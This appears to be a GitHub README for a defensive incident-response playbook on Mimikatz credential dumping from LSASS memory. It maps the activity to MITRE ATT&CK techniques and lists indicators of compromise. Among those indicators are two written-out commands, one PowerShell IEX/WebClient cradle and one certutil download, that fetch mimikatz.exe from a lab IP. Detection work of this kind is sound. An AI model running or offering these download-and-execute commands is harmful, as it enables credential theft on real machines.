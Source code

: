 # Overview

Playbook Name: Mimikatz Credential Dump (LSASS Memory)


Tactic: Initial Access / Execution / Defense Evasion (depends on delivery method)
MITRE ATT&CK ID: T1105 – Ingress Tool Transfer

This covers the transfer or download of tools (like Mimikatz) to a compromised host.

- Example: downloading Mimikatz via Invoke-WebRequest, certutil, or WebClient.

Tactic: Credential Access

MITRE ATT&CK ID: T1003 – Credential Dumping

Specifically, Mimikatz accesses LSASS memory to retrieve:

- Plaintext passwords

- NTLM hashes

- Kerberos tickets

Sub-techniques depending on method:

- T1003.001 – LSASS Memory (most common with Mimikatz)

- T1003.002 – Security Account Manager (SAM)

- T1003.003 – NTDS (Active Directory) if domain controller

Purpose: Provide a structured response workflow for detecting and responding to downloading and executing mimikatz for Credential Access.

# Indicators of Compromise (IOCs)
1. File Hashes (Mimikatz Variants)
   MD5: E930B05EFE23891D19BC354A4209BE3E

3. Filenames

- mimikatz.exe

- Dropped temp names like:


    - C:\Users\labadmin\mimikatz.exe

3. Process Indicators (Event ID 1 / 4688)

- Parent/Child chain:

    - cmd.exe → powershell.exe → mimikatz.exe

- Suspicious command-line usage:

    - `powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString("http://192.168.1.105:8080/mimikatz.exe")"`

    - `certutil.exe -urlcache -split -f http://192.168.1.105:8080/mimikatz.exe mimikatz.exe`
